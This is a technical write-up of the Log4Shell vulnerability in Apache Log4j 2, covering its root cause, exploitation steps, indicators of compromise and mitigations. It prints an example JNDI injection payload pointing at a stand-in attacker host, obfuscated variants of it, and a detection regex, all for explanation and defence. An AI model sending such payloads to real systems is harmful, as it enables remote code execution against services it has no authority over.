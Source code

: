 # a) Log4j (Log4Shell) — technical write-up

## Executive summary

Log4Shell (CVE-2021-44228) is a remote code execution vulnerability in Apache Log4j 2 (affecting many 2.x versions) that abuses Log4j’s JNDI lookup feature to cause an application to fetch and execute attacker-controlled Java code. It was disclosed publicly in December 2021 and produced a global, fast-moving exploitation wave because Log4j is widely embedded in Java apps and services. 


## Technical background

- **Component:** Apache Log4j 2 (logging library used by Java applications).
- **Root cause:** Unvalidated use of the Java Naming and Directory Interface (JNDI) lookup mechanism inside message formatting. When Log4j formatted a log message containing a `${jndi:...}` expression, it could perform JNDI lookups (LDAP, RMI, etc.) and deserialize/execute classes fetched via those lookups. 
- **Affected versions:** Log4j 2.0-beta9 through 2.14.1 (initial advisories) — upstream patches and safe versions were later released; long-term resolution is to upgrade to a fixed Log4j 2.x release. 
---

## Exploitation mechanics (how attacks worked)

1. **Injection point:** Any loggable string that reaches Log4j’s message formatting (HTTP headers, user-agent, form parameters, protocol fields, error messages, etc.) could contain a JNDI lookup payload like:
    
    ```
    ${jndi:ldap://attacker.com/a}
    
    ```
    
2. **JNDI resolution:** Log4j processed the lookup and triggered the JVM’s JNDI subsystem to contact the specified LDAP/RMI server.
3. **Class retrieval:** The attacker’s server responded with a reference that caused the victim JVM to download a remote Java class (or return a serialized object which is subsequently loaded/executed).
4. **Remote Code Execution (RCE):** The remote class ran in the victim application's process, giving arbitrary code execution with the application's privileges. 

---

## Detection / Indicators of compromise (IoCs)

- **Network indicators:** outbound LDAP/RMI/HTTP calls to uncommon external servers from Java application hosts; spikes in suspicious JNDI-related network activity. 
- **Log indicators:** logged strings containing `${jndi:`, `${${lower:jndi}:...}`, or obfuscated variants (nested lookups, base64, URL-encoded forms).
- **Behavioral indicators:** unexpected JVM class downloads, new / unusual Java processes, webshells, reverse shells, or anomalies in application behavior after suspicious log entries.
- **Hunt queries:** search logs for regex patterns like `\$\{jndi:` and for DNS/LDAP requests to attacker domains.

---

## Mitigation & remediation

Short-term mitigations that were widely recommended while patches were applied:

- **Upgrade Log4j** to a patched release (follow Apache guidance — final fixed releases are the correct long-term fix).
- **If immediate upgrade not possible:** remove the `JndiLookup` class from the `log4j-core` JAR (e.g., `zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class`), or set JVM/system property to disable lookups if provided by the patched line. Vendor playbooks documented removal workarounds.
- **Network controls:** block outbound LDAP/RMI from application workloads, enforce egress restrictions and DNS filtering. 
---

## Impact & timeline (summary)

- **Discovery & disclosure:** public disclosure/patching December 2021; massive scanning and exploitation followed immediately, affecting cloud services, endpoints, and embedded devices where Log4j was present. Global telemetry showed extremely high scan/exploit volumes in the weeks after disclosure.
